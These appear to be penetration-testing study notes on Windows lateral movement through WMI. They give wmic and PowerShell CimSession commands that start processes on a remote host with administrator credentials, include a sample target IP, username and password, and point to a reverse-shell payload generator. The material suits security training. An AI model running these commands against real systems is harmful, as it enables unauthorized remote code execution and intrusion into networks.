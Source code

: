 ## WMI and WinRM

### WMI

The first _lateral movement_ technique is based on _Windows Management Instrumentation_ (WMI), an object-oriented feature that facilitates task automation. WMI is able to create processes via the _Create_ method of the _Win32_Process_ class. It communicates via RPC on port 135 and uses a large port range for session data.

There are two ways to follow the attack:
1) Via _wmic_ (DEPRECATED!)
2) Via _Powershell_

To create a process on a remote target via WMI **you need the credentials of a member of the local _Administrators_** group, which could also be a domain user.

Using the _wmic_ utility to create a process on the remote system:

```bash
wmic /node:$IP_TARGET /user:$USERNAME /password:$PASSWORD process call create "$COMMAND_NAME"

# esempio
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```

This command should return the process pid and return value of 0 (which confirms the process was created correctly).

The following shows how to use _Powershell_ to perform the attack.

Creating a _PSCredential_ object in _PowerShell_:

```
$username = '$USERNAME';
$password = '$PASSWORD';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

Creating a new _CimSession_:

```
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName $IP_TARGET -Credential $credential -SessionOption $Options
```

Payload:
- Use https://www.revshells.com/ for payload generation.

```
$command = '$COMMAND_NAME';
```

Creating WMI session via _PowerShell_:

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
